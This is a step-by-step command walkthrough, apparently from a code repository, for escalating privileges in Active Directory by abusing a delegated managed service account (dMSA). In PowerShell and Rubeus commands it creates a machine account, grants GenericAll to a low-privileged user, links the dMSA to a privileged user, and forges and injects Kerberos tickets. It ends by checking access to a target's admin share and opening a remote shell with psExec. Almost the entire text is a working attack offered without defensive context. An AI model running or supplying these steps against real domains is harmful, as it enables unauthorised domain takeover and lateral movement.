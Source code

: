 ### **1. Create a Computer Account**

```powershell
New-ADComputer -Name BadMachine1234 `
    -SamAccountName "BadMachine1234$" `
    -AccountPassword (ConvertTo-SecureString -String "Passw0rd@123456" -AsPlainText -Force) `
    -Enabled $true `
    -Path "OU=SomeOU,DC=example,DC=com" `
    -PassThru `
    -Server "example.com"
```

---

### **2. Derive AES256 Hash using Rubeus**

```powershell
Rubeus.exe hash /password:Passw0rd@123456 /user:BadMachine1234$ /domain:example.com
```

Look for output line like:

```plaintext
aes256_cts_hmac_sha1 : 11223344556677889900AABBCCDDEEFF00112233445566778899AABBCCDDEEFF
```

---

### **3. Create the dMSA Account**

```powershell
New-ADServiceAccount -Name BadDMSA1234 `
    -DNSHostName BadDMSA1234.example.com `
    -CreateDelegatedServiceAccount `
    -KerberosEncryptionType AES256 `
    -PrincipalsAllowedToRetrieveManagedPassword "BadMachine1234$" `
    -Path "OU=SomeOU,DC=example,DC=com"
```

---

### **4. Grant `GenericAll` to Low Privileged User**

```powershell
$sid = (Get-ADUser -Identity "lowuser").SID
$acl = Get-Acl "AD:\CN=BadDMSA1234,OU=SomeOU,DC=example,DC=com"
$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $sid, "GenericAll", "Allow"
$acl.AddAccessRule($rule)
Set-Acl -Path "AD:\CN=BadDMSA1234,OU=SomeOU,DC=example,DC=com" -AclObject $acl
```

---

### **5. Set Delegation Attributes**

```powershell
Set-ADServiceAccount -Identity BadDMSA1234 -Replace @{
    'msDS-ManagedAccountPrecededByLink' = 'CN=Privilegeduser,DC=example,DC=com'
    'msDS-DelegatedMSAState' = 2
}
```

---

### **6. Check dMSA Attributes**

```powershell
Get-ADServiceAccount -Identity BadDMSA1234 -Properties msDS-ManagedAccountPrecededByLink, msDS-DelegatedMSAState |
    Select-Object Name, msDS-ManagedAccountPrecededByLink, msDS-DelegatedMSAState
```

---

### **7. Test Access (Pre-Impersonation)**

```powershell
dir \\TargetHost\c$
```

---

### **8. Request TGT with Machine Account**

```powershell
Rubeus.exe asktgt /user:BadMachine1234$ /aes256:11223344556677889900AABBCCDDEEFF00112233445566778899AABBCCDDEEFF /domain:example.com /nowrap
```

---

### **9. Extract Base64 TGT**

Manually extract from the above Rubeus output

---

### **10. Request TGS Using dMSA**

```powershell
Rubeus.exe asktgs /targetuser:BadDMSA1234$ /service:krbtgt/example.com /dmsa /opsec /ptt /nowrap  /ticket:<Base64TGT>
```

---

### **11. Test Access (Post-Impersonation)**

```powershell
dir \\TargetHost\c$
```

```powershell
psExec.exe \\TargetHost cmd
```

---
